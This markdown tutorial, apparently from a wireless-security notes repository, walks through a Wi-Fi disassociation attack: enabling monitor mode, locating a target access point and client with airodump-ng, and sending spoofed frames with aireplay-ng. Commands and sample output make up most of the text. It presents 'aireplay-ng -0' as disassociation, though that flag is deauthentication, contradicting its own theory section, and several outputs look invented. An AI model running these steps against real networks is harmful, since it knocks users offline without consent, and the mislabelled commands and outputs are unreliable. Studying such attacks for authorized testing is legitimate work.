 # Disassociation Attack

## Theory
A disassociation attack targets the connection between a client and an AP by sending spoofed disassociation frames. Unlike deauthentication, disassociation is a "soft" disconnection, meaning the client is still authenticated but temporarily disconnected.

This attack can be used to:
- Disrupt network connectivity.
- Force a client to reconnect, potentially capturing sensitive data.

## Tools Required
- `aircrack-ng` suite
- `Wireshark` for traffic analysis
- A wireless adapter capable of monitor mode and packet injection

## Steps

### Step 1: Enable Monitor Mode
Enable monitor mode on your wireless interface.

```bash
sudo airmon-ng start wlan0
```

Expected output:
```
Interface   Chipset         Driver
wlan0       Atheros         ath9k - [phy0]
                (monitor mode enabled on wlan0mon)
```

### Step 2: Capture Traffic
Use `airodump-ng` to identify the target AP and client.

```bash
sudo airodump-ng wlan0mon
```

Expected output:
```
 BSSID              PWR  Beacons  #Data, #/s  CH  MB   ENC  CIPHER  AUTH ESSID
 00:14:6C:7E:40:80  -50      100     50    0   6  54e  WPA2  CCMP    PSK  MyWiFi

 STATION            PWR   Rate   Lost  Frames  Probe
 00:25:9C:CF:1C:9E  -40   36e     0     200   MyWiFi
```

### Step 3: Send Disassociation Frames
Send spoofed disassociation frames to disrupt the connection.

```bash
sudo aireplay-ng -0 10 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon
```

- `-0 10`: Sends 10 disassociation packets.
- `-a [AP_MAC]`: MAC address of the target AP.
- `-c [CLIENT_MAC]`: MAC address of the client.

Expected output:
```
10 disassociation frames sent.
```

### Notes
- Use this attack responsibly and only on authorized networks.
- Monitor the impact using `Wireshark` to confirm disassociation frames are being sent.
